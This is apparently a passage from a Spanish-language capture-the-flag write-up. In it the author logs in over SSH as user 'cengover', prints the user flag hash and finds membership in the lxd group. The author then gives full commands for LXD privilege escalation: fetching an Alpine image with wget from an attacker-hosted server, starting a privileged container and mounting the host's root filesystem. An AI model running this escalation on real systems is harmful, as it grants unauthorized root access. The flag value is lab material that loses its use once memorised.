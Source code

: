 Por lo que ya seriamos el usuario, pero mejor nos conectaremos por `ssh`...

```shell
ssh cengover@<IP>
```

Una vez siendo ese usuario, leemos la flag...

> user.txt (flag1)

```
8f7f6471e2e869f029a75c5de601d5e0
```

Si hacemos el siguiente comando...

```shell
id
```

```
uid=1000(cengover) gid=1000(cengover) groups=1000(cengover),4(adm),24(cdrom),30(dip),46(plugdev),100(users),110(lxd),117(lpadmin),118(sambashare)
```

Veremos que estamos en un grupo muy caracteristico para escalar privilegios llamado `110(lxd)`...

Por lo que haremos lo siguiente...

```shell
# build a simple alpine image in your host

git clone https://github.com/saghul/lxd-alpine-builder

cd lxd-alpine-builder

sudo ./build-alpine

python3 -m http.server 80

# import the image

# It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

cd /tmp/

wget http://<IP>/<FILE_NAME>.tar.gz

lxc image import ./alpine*.tar.gz --alias myimage

# run the image

lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image

lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container

lxc start mycontainer

lxc exec mycontainer /bin/sh
```
